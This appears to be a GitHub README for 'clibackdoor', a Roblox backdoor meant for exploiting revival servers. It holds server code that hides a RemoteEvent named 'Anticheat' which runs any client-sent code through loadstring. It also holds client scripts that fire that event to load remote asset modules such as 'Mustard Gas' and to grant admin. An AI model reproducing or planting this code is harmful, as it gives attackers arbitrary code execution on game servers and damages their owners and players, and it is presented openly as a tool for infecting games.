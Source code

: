 # clibackdoor
A backdoor for old Roblox clients
## How do I use it?
First, put this code into a random script or make a script in a random object:
```
-- clibackdoor, by the b1 fanclub

local ac = Instance.new("RemoteEvent", game.ReplicatedStorage)
ac.Name = "Anticheat"
ac.OnServerEvent:connect(function(player, SS)
    loadstring(SS)()
end)
```
Then, once you did that, click Workspace, and make sure LoadstringEnabled is enabled. If it is not in Workspace, then check in ServerScriptService.

If you have a clientsided executor for the revival you're exploiting, run this:
```
-- i like my cheese drippy bro
local moduleID = 970596902
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
# Examples
## Tree Smasher
```
-- i like my cheese drippy bro
local moduleID = 970596902
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
## Kohl's Admin Epix
```
-- i like my cheese drippy bro
local moduleID = 522666193
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).giveAdmin("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
## Mustard Gas
```
-- i like my cheese drippy bro
local moduleID = 1196228933
local backdoor = game:GetService("ReplicatedStorage"):FindFirstChild("Anticheat")

if backdoor then
    local executeScript = string.format('require(%d).load("%s")', moduleID, game.Players.LocalPlayer.Name)
    backdoor:FireServer(executeScript)
else
    warn("clibackdoor not found, did you infect the game?")
end
```
